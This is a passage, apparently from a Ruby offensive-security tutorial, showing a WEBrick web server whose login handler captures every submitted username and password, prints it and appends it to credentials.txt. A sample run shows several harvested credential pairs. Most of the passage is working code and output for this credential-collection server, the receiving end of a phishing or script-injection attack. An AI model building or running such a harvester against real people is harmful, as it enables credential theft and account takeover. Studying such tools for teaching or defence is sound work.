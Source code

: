 ```
      puts "\n-----[ START OF POST ]-----"
      puts "[+] #{username}:#{password}"
      puts "-----[ END OF POST ]-----\n\n"
      # Write Credentials to file
      File.open("credentials.txt", '+a') {|f| f.puts "#{username}:#{password}"}
      return 200, 'text/plain', 'Success! Thank you.'
    else
      puts "[!] Empty username and password."
      return 404, 'text/plain', 'Wrong username or password!'
    end

  end
end

begin
  port = ARGV[0]
  raise if ARGV.size < 1

  # Start Web Server
  puts "[+] Starting HTTP server on port: #{port}\n"
  server = WEBrick::HTTPServer.new(ServerName: "Rubyfu HTTP Server",
                                   Port: port,
                                   BindAddress: '0.0.0.0',
                                   AccessLog: [],
                                   Logger: WEBrick::Log.new(File.open(File::NULL, 'w'))
                                   )
  server.mount("/", RubyfuServlet)
  server.mount("/login", Login)
  trap "INT" do server.shutdown end
  server.start

rescue Exception => e
  puts "ruby #{__FILE__} <WEB_SERVER_PORT>" if ARGV.size < 1
  puts e, e.backtrace
  exit 0
end 
```

运行它

```
ruby webrick-server.rb 8080
[+] Starting HTTP server on port: 8080

-----[ START OF POST ]-----
[+] admin:AdminPassw0rd@!
-----[ END OF POST ]-----

-----[ START OF POST ]-----
[+] support:Puppies
-----[ END OF POST ]-----

[!] Empty username and password.

-----[ START OF POST ]-----
[+] user1:12345678
-----[ END OF POST ]----- 
```
